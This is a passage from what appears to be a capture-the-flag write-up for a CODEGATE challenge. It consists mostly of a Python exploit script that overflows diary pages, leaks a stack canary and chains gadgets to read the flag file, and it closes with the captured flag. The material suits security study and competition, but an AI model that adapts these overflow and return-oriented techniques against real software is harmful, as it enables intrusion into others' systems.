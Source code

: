```python
r.sendline('flag')
r.sendline('aa')
r.sendline('a')

# Second Page (r10 overflow)
r.sendline('2')
r.sendline('a')
r.sendline('\xff') # Overflow
# Main function canary address : 0xf5fd4
r.sendline('a' * (4096 - 1260) + 'a' * (r10 - page2 - 0x1000) +
            '\x03\x00\x00' + '\x00\x31\x00' + '\x00\x07\x00' + '\x54\x3d\x3f')

r.sendline('1')
r.recvuntil('YOUR DIARY')
r.recvuntil('3)')
sleep(0.1)
canary_str = r.recv(3)
canary = ord(canary_str[1]) * 16384 + ord(canary_str[2]) * 128 + ord(canary_str[0])

# Third Page (Actually, Fourth) 
r.sendline('2')
r.sendline('flag')
r.sendline('aa')
r.sendline('a')

# Fourth Page
r.sendline('2')
r.sendline('a')
r.sendline('\xff')

gad_r1r0 = '\x7e\x00\x0c'
flag_str = '\x00\x31\x00'
gad_sysr3r2r1 = '\x4e\x00\x0c'
gad_readr3r2r1 = '\x20\x00\x0c'
gad_write = '\x49\x00\x0c'

payload = 'aaa'
payload += gad_r1r0 + flag_str + '\x01\x00\x00'
payload += gad_sysr3r2r1 + canary_str + '\x00\x0f\x00' + '\x00\x07\x00' + '\x02\x00\x00'
payload += gad_readr3r2r1 + canary_str + '\x50\x00\x00' + '\x00\x07\x00' + '\x01\x00\x00'
payload += gad_write

# sp address in read() is 1007542(0xf5fb6)
r.sendline('a' * (4096-1260) + 'a' * (0xf5000 - page4 - 0x1000) +
           payload + 'a' * (0xf5fb6 - 0xf5000 - len(payload)) +
           canary_str + '\x00\x00\x00' * 3 + '\x66\x00\x01' +
           '\x00\x3d\x20' + '\x64\x00\x01' + '\xff')

r.interactive()
```

이를 통해 얻은 flag는 `CODEGATE{65b729cfa7acfd0c7f01378bc7d6e4a4}`입니다.

